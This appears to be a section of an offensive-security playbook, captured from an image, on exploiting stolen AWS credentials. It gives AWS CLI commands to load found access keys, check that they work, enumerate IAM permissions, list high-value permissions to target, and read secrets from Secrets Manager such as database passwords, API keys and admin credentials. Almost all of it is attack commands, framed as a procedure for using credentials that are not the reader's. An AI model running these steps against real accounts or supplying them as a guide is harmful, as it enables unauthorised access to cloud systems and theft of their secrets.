 
## PRIORITY 3: STOLEN CREDENTIAL EXPLOITATION

### Using Found AWS Credentials

**Credentials found in code/config files:**

```bash
# Configure AWS CLI
export AWS_ACCESS_KEY_ID="AKIAIOSFODNN7EXAMPLE"
export AWS_SECRET_ACCESS_KEY="wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY"

# Test credentials
aws sts get-caller-identity

# If successful, enumerate systematically
```

### IAM Permission Enumeration

```bash
# What can you do?
aws iam get-user
aws iam list-attached-user-policies
aws iam list-user-policies

# Get policy details
aws iam get-policy-version \
  --policy-arn arn:aws:iam::123456789012:policy/PolicyName \
  --version-id v1

# Common high-value permissions to check:
# - s3:GetObject / s3:ListBucket
# - ec2:DescribeInstances
# - rds:DescribeDBInstances  
# - secretsmanager:GetSecretValue
# - lambda:InvokeFunction
# - iam:* (very dangerous if present)
```

### High-Value AWS Resources to Target

**1. Secrets Manager**
```bash
# List secrets
aws secretsmanager list-secrets

# Get secret value
aws secretsmanager get-secret-value --secret-id SECRET_NAME

# Often contains:
# - Database passwords
# - API keys
# - Admin credentials
```
